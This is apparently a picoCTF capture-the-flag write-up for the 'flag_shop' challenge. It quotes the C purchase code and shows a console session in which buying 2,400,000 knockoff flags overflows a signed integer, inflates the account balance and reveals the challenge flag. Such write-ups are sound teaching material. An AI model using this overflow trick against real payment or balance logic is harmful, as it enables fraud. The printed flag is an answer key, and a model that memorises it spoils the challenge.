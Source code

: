 # flag_shop
## Description
There's a flag shop selling stuff, can you buy a flag? [Source](store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.
## Hints
1. Two's compliment can do some weird things when numbers get really big!
## Solution
1. Look at the code for purchasing a knockoff flag (starting at line 37). It doesn't check max values.
```c
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour current balance after transaction: %d\n\n", account_balance);
    }
    else{
        printf("Not enough funds to complete purchase\n");
    }
}
```
2. The largest positive number represented by a 32-bit signed integer is `2,147,483,647`. A knockoff flag costs `900`, which means if we buy a little more than `2.386M` of them we will force an overflow into negative values and end up adding money to our account.
```console
% jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2400000

The final cost is: -2134967296

Your current balance after transaction: 2134968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
```
